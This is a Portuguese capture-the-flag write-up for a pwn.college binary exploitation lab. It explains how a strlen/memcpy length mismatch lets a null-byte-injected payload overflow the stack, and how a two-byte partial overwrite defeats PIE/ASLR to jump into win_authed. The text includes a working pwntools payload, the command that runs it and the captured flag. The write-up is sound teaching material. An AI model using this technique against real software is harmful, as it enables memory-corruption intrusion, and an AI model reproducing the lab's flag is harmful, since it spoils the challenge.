



# pwn.college — String Lengths (Hard)
### Intro to Cybersecurity · Orange Belt · Binary Exploitation

> **Autor:** Pedro Tuttman  
> **Plataforma:** [pwn.college](https://pwn.college)  
> **Categoria:** Binary Exploitation — Intro to Cybersecurity (Orange Belt)  
> **Técnicas:** Null-byte injection · Stack buffer overflow via `memcpy` · Partial overwrite (PIE + ASLR bypass)

---

## Índice

1. [Visão Geral](#visão-geral)
2. [Reconhecimento](#reconhecimento)
3. [Análise do Binário](#análise-do-binário)
4. [Identificando a Vulnerabilidade](#identificando-a-vulnerabilidade)
5. [Mapeamento da Memória](#mapeamento-da-memória)
6. [Estratégia de Exploração](#estratégia-de-exploração)
7. [Lidando com PIE + ASLR](#lidando-com-pie--aslr)
8. [Payload Final](#payload-final)
9. [Execução e Flag](#execução-e-flag)
10. [Conclusão](#conclusão)

---

## Visão Geral

Este desafio apresenta um programa que, à primeira vista, parece implementar de forma segura um mecanismo de leitura e cópia de input: ele lê dados do usuário para um buffer no heap, valida o tamanho com `strlen` e só então copia para a stack com `memcpy`. Porém, existe uma inconsistência sutil entre a forma como cada função interpreta o "tamanho" dos dados — e é exatamente nessa brecha que mora a vulnerabilidade.

A exploração envolve:
- **Null-byte injection** para enganar o `strlen`
- **Stack buffer overflow** forçado pelo `memcpy`
- **Partial overwrite** do endereço de retorno para contornar PIE + ASLR

---

## Reconhecimento

O primeiro passo é sempre rodar o `checksec` para entender as proteções ativas:

```
checksec --file=/challenge/binary-exploitation-null-write
```

| Proteção        | Status     | Observação                                    |
|-----------------|------------|-----------------------------------------------|
| Stack Canary    | ❌ Ausente  | Overflow direto sem precisar vazar canary      |
| NX (No-Execute) | ✅ Ativo    | Não é possível executar shellcode na stack     |
| PIE             | ✅ Ativo    | Endereços base aleatorizados pelo ASLR         |
| RELRO           | ✅ Ativo    | Seções de relocation protegidas                |
| Stripped        | ❌ Não      | Símbolos disponíveis — facilita análise no GDB |

A ausência de **stack canary** é a abertura que precisamos. Com PIE ativo, precisaremos de uma técnica de **partial overwrite** para não depender do endereço base absoluto.

---

## Análise do Binário

Abrindo o binário no GDB e inspecionando o fluxo de execução, identifica-se a seguinte sequência de chamadas dentro da função challenge():

### 1. `malloc@plt` — alocação no heap

Como visto no GDB:



```
rdi = 0x1000  (4096 bytes — tamanho do buffer a alocar)
rax = <endereço do heap>  (ponteiro retornado, ex: 0x7ffd8c862f60)
```

O programa aloca 4096 bytes no heap para receber o input do usuário.

### 2. `read@plt` — leitura do input

```
rsi = <endereço do heap>  (buffer de destino — mesmo endereço retornado pelo malloc)
rdx = 0x1000              (lê até 4096 bytes)
```

O `read` lê diretamente bytes brutos do stdin — **sem adicionar null terminator** ao final.

### 3. `strlen@plt` — validação do comprimento

O binário passa o buffer para `strlen` como visto abaixo:



```
rdi = <endereço do heap>   (ponteiro para a string a medir)
rax = <tamanho retornado>  (número de bytes antes do primeiro \x00)
```

Após o retorno de `strlen`, o programa executa:

```asm
mov QWORD PTR [rbp-0x20], rax
cmp QWORD PTR [rbp-0x20], 0x38
```

Ou seja, verifica se o comprimento é **menor ou igual a 0x38 (56 bytes)**. Se for maior, o programa encerra. Se passar nessa verificação, o fluxo segue para o `memcpy`.

### 4. `memcpy@plt` — cópia para a stack

```
rdi = 0x7ffd8c862f10       (destino: buffer na stack)
rsi = 0x64f01af742a0       (origem: buffer no heap)
rdx = <bytes lidos pelo read>  (número de bytes a copiar — NOT strlen!)
```

> **Ponto crítico:** o terceiro argumento (`rdx`) do `memcpy` é o valor retornado por `read`, não por `strlen`. O programa valida o tamanho com `strlen`, mas copia com base no que `read` realmente leu.

---

## Identificando a Vulnerabilidade

A vulnerabilidade nasce da **inconsistência semântica** entre as três funções:

| Função     | Como interpreta o tamanho         |
|------------|-----------------------------------|
| `read`     | Conta bytes brutos, ignora `\x00` |
| `strlen`   | Para no primeiro `\x00`           |
| `memcpy`   | Copia o número de bytes do `read` |

O fluxo do programa é:

```
read(stdin, heap_buf, 4096)    → lê N bytes brutos
strlen(heap_buf)               → conta até o primeiro \x00  ← validação
assert(strlen_result <= 56)    ← check passa com valor "falso"
memcpy(stack_buf, heap_buf, N) → copia os N bytes reais      ← overflow!
```

Se inserirmos um `\x00` logo cedo no payload, o `strlen` "vê" uma string curta e aprova a verificação. Mas o `memcpy` não se importa com null bytes — ele copia tudo que o `read` recebeu, causando o overflow.

---

## Mapeamento da Memória

Com o GDB, mapeamos os endereços relevantes durante a execução:

```
Stack buffer (destino do memcpy):  0x7ffd8c862f10
Return address:                    0x7ffd8c862f78
```

**Cálculo do offset até o return address:**

```
0x7ffd8c862f78 - 0x7ffd8c862f10 = 0x68 = 104 bytes
```

Precisamos de **104 bytes** a partir do início do buffer de destino para alcançar o return address.

### Função alvo: `win_authed`

Ao examinar os símbolos do binário (não stripped), encontramos a função `win_authed` em:

```
win_authed = 0x000064eff80d81e6
```

Porém, essa função contém uma verificação no início (ex: `if (token != 0x1337) return;`). Para pular essa checagem, apontamos o fluxo para **logo após a verificação**:

```
target = 0x000064eff80d8202
```

---

## Estratégia de Exploração

### Problema: o limite de 56 bytes

O `strlen` limita o comprimento aparente do payload a 56 bytes, mas precisamos de 104 bytes para alcançar o return address — mais 2 bytes para o endereço alvo. São **106 bytes no total**.

### Solução: null-byte injection

Estruturamos o payload assim:

```
[50 bytes de lixo] + [\x00] + [53 bytes de lixo] + [2 bytes do endereço]
```

- O `strlen` lê apenas os **50 bytes** antes do `\x00` → passa na verificação (50 < 56 ✅)
- O `read` leu todos os **106 bytes** → `memcpy` copia tudo → overflow acontece ✅

```
bytes:  0        50   51       103 104 105
        [AAAA...A][00][AAAA...A][\x02\x82]
         strlen vê       ^         ^
         apenas isso      |         |
                     null byte   endereço alvo
                     (engana     (little-endian)
                      strlen)
```

---

## Lidando com PIE + ASLR

Como o binário é compilado com **PIE (Position Independent Executable)**, o endereço base do executável muda a cada execução graças ao ASLR.

### Por que o partial overwrite funciona?

O ASLR aleatoriza os **bits mais significativos** do endereço base, mas os **offsets internos** (bits menos significativos) permanecem constantes. Na prática:

- Os **3 nibbles menos significativos** do endereço nunca mudam
- O **4º nibble** pode variar dependendo do alinhamento de página
- Os nibbles acima são completamente aleatórios

O endereço alvo é `0x...d8202`. Ao sobrescrever apenas os **2 bytes menos significativos** (`\x02\x82` em little-endian), aproveitamos que:

1. Não precisamos conhecer o endereço base completo
2. Os offsets internos são determinísticos
3. Sobrescrevemos apenas os bytes que precisamos mudar

> ⚠️ **Nota:** Como o 4º nibble (`8` em `0x...8202`) pode variar com a aleatorização de página, o payload pode precisar de **múltiplas tentativas** — o exploit funciona quando a base da página carregada pelo ASLR coincide com a que observamos no GDB (ex: `0x000064eff80d6000`).

---

## Payload Final

```python
from pwn import *

payload = (
    b"A" * 50 +   # preenchimento até próximo do limite de strlen
    b"\x00" +     # null byte: engana o strlen (que para aqui)
    b"A" * 53 +   # continua o overflow até o return address
    b"\x02\x82"   # 2 LSBs do endereço alvo (little-endian)
                  # aponta para win_authed após a verificação de token
)

open("payload", "wb").write(payload)
```

Execução:

```bash
/challenge/binary-exploitation-null-write < payload
```

---

## Execução e Flag

Após algumas tentativas (devido ao 4º nibble aleatório do PIE), o exploit funcionou:



```
You win! Here is your flag:
pwn.college{suQfCkAPXZDULAm6PxoWcjMJLSA.dRDMzwCOzYTNxEzW}
```

> O erro `Bus error` que aparece logo após é esperado — o programa tenta continuar a execução após `win_authed` e acaba acessando um endereço inválido. Mas a flag já foi impressa. ✅

---

## Conclusão

Este desafio ilustra de forma elegante como uma vulnerabilidade pode surgir não de um único erro, mas da **composição de funções com semânticas diferentes**:

- `strlen` e `memcpy` concordam sobre o que é um buffer — mas discordam sobre o que é o "tamanho" dele
- O programador validou com `strlen`, mas copiou com base no `read` — e essa assimetria é a vulnerabilidade

A técnica de **null-byte injection** é direta, mas requer entender com precisão o comportamento interno de cada função envolvida. Já o **partial overwrite** demonstra como, mesmo com PIE + ASLR ativos, é possível redirecionar o fluxo de execução sem vazar o endereço base — ao custo de alguma probabilidade de acerto.

### Resumo técnico

| Elemento              | Valor / Técnica                        |
|-----------------------|----------------------------------------|
| Vulnerabilidade       | `strlen` vs `memcpy` size mismatch     |
| Bypass do check       | Null-byte injection                    |
| Offset até RIP        | 104 bytes                              |
| Proteção contornada   | PIE + ASLR via partial overwrite       |
| Bytes sobrescritos    | 2 (LSBs do return address)             |
| Endereço alvo         | `win_authed` + offset pós-verificação  |

---
